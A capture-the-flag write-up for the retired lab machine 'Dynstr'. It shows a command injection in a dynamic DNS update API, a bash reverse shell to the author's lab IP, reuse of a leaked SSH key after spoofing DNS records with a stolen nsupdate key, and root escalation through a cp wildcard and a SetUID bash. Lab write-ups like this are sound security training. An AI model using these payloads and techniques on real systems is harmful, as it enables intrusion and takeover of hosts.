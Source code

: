 # Dynstr

This is the write-up for the box Dynstr that got retired at the 16th October 2021.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.244    dynstr.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/dynstr.nmap 10.10.10.244
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 05:7c:5e:b1:83:f9:4f:ae:2f:08:e1:33:ff:f5:83:9e (RSA)
|   256 3f:73:b4:95:72:ca:5e:33:f6:8a:8f:46:cf:43:35:b9 (ECDSA)
|_  256 cc:0a:41:b7:a1:9a:43:da:1b:68:f5:2a:f8:2a:75:2c (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyna DNS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website advertises **Dynamic DNS** services and there is some valuable information on it:

![Dyna DNS homepage](dynstr_web-1.png)

The hostnames have to be added to our _/etc/hosts_ file to enumerate the domains further:
- dnsalias.htb
- dynamicdns.htb
- no-ip.htb

## Checking DNS (Port 53)

As the [API of no-ip.com](https://www.noip.com/integrate/request) is used, we can try to login with the provided credentials as described in the documentation:
```
curl 'http://dynadns:sndanyd@10.10.10.244/nic/update?hostname=test.dynamicdns.htb&myip=10.10.14.2'

good 10.10.14.2
```

It works and the domain _test.dynamicdns.htb_ gets now resolved to my IP address:
```
nslookup

> server 10.10.10.244

> test.dynamicdns.htb
Server:         10.10.10.244
Address:        10.10.10.244#53

Name:   test.dynamicdns.htb
Address: 10.10.14.2
```

When trying to register an invalid hostname with special characters, it shows an error message:
```
curl 'http://dynadns:sndanyd@10.10.10.244/nic/update?hostname=test!.dynamicdns.htb&myip=10.10.14.2'

911 [nsupdate failed]
```

It uses the Dynamic DNS update utility [nsupdate](https://linux.die.net/man/8/nsupdate) and there could be a command injection vulnerability in
this request:
```
time curl 'http://dynadns:sndanyd@10.10.10.244/nic/update?hostname=test`sleep+3`.dynamicdns.htb&myip=10.10.14.2'

good 10.10.14.2

real    0m6.192s
```

By using the `time` command, it can be observed how long the request takes and because of the `sleep` command injection, it takes longer than usual and proofs command execution.

Forwarding `curl` command to **Burpsuite**:
```
curl --proxy http://localhost:8080 'http://dynadns:sndanyd@10.10.10.244/nic/update?hostname=test`sleep+3`.dynamicdns.htb&myip=10.10.14.2'
```

Sending a reverse shell command:
```
GET /nic/update?hostname=test`bash -c 'bash -i >& /dev/tcp/0x0a0a0e02/9001 0>&1'`.dynamicdns.htb&myip=10.10.14.2 HTTP/1.1
```

The IP was changed to a hex format because further dot symbols will make the command injection fail.
After URL-encoding and sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

In the home folder _/home/bindmgr_ the _.ssh/authorized_keys_ file reveals a hostname, that allows to SSH from there:
```
from="*.infra.dyna.htb" (...)
```

There is another directory _support-case-C62796521_ with four files:
- C62796521-debugging.script
- C62796521-debugging.timing
- command-output-C62796521.txt
- strace-C62796521.txt

The _strace_ file leaks the private SSH key of the user, but login is not possible because it is only allowed from the domain _*.infra.dyna.htb_.

The file _/var/www/html/nic/update_ shows how the DNS entries are generated and can be used to imitate the domain:
```
nsupdate -t 1 -k /etc/bind/ddns.key
> update add test.infra.dyna.htb 30 IN A 10.10.14.2
> send

update failed: REFUSED
```

Unfortunately creating a hostname with the key _ddns.key_ is not allowed.
There is another file _/etc/bind/infra.key_ which could be the correct key for the domain _dyna.htb_:
```
nsupdate -t 1 -k /etc/bind/infra.key
> update add test.infra.dyna.htb 30 IN A 10.10.14.2
> send
```

Creating a **reverse DNS lookup** to my IP:
```
> add 2.14.10.10.in-addr.arpa 30 IN PTR test.infra.dyna.htb
> send
```

Now the domain _test.infra.dyna.htb_ resolves to my IP address and also resolves to the domain for the box:
```
nslookup

> server 10.10.10.244

> test.infra.dyna.htb
Server:         10.10.10.244
Address:        10.10.10.244#53

Name:   test.infra.dyna.htb
Address: 10.10.14.2

> 10.10.14.2
2.14.10.10.in-addr.arpa name = test.infra.dyna.htb.
```

The SSH key for _bindmgr_ now works to login:
```
ssh -i bindmgr.key bindmgr@10.10.10.244
```

### Privilege Escalation to root

The user _bindmgr_ is able to execute a bash script with root privileges:
```
User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
```

This script has a flaw and uses a wildcard character in a `cp` command:
```
(...)
cp .version * /etc/bind/named.bindmgr/
(...)
```

A wildcard character can be abused to send parameters to commands.
With the parameter _"--preserve=mode"_ it is possible to keep the permissions of a file, so it has to be created as a file:
```
cd /dev/shm

echo 1 > .version

touch -- '--preserve=mode'
```

Copying `bash` to the current directory and setting the **SetUID bit**:
```
cp /bin/bash /dev/shm

chmod 4755 bash
```

Executing the script with `sudo` privileges:
```
sudo /usr/local/bin/bindmgr.sh
```

It copies the `bash` binary into _/etc/bind/named.bindmgr/_ and can be executed with elevated privileges:
```
/etc/bind/named.bindmgr/bash -p

bash-5.0# id
uid=1001(bindmgr) gid=1001(bindmgr) euid=0(root) groups=1001(bindmgr)
```

It starts a shell as root!
